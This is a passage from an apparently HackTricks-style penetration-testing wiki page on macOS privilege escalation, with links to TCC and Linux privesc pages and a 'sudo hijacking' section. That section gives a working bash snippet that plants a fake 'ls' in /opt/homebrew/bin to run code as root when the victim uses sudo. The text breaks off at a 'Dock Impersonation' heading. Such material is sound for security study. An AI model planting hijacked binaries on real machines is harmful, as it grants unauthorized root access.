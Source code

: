 # macOS Privilege Escalation

{{#include ../../banners/hacktricks-training.md}}

## TCC Privilege Escalation

If you came here looking for TCC privilege escalation go to:

{{#ref}}
macos-security-protections/macos-tcc/
{{#endref}}

## Linux Privesc

Please note that **most of the tricks about privilege escalation affecting Linux/Unix will affect also MacOS** machines. So see:

{{#ref}}
../../linux-hardening/privilege-escalation/
{{#endref}}

## User Interaction

### Sudo Hijacking

You can find the original [Sudo Hijacking technique inside the Linux Privilege Escalation post](../../linux-hardening/privilege-escalation/index.html#sudo-hijacking).

However, macOS **maintains** the user's **`PATH`** when he executes **`sudo`**. Which means that another way to achieve this attack would be to **hijack other binaries** that the victim sill execute when **running sudo:**

```bash
# Let's hijack ls in /opt/homebrew/bin, as this is usually already in the users PATH
cat > /opt/homebrew/bin/ls <<EOF
#!/bin/bash
if [ "\$(id -u)" -eq 0 ]; then
    whoami > /tmp/privesc
fi
/bin/ls "\$@"
EOF
chmod +x /opt/homebrew/bin/ls

# victim
sudo ls
```

Note that a user that uses the terminal will highly probable have **Homebrew installed**. So it's possible to hijack binaries in **`/opt/homebrew/bin`**.

### Dock Impersonation
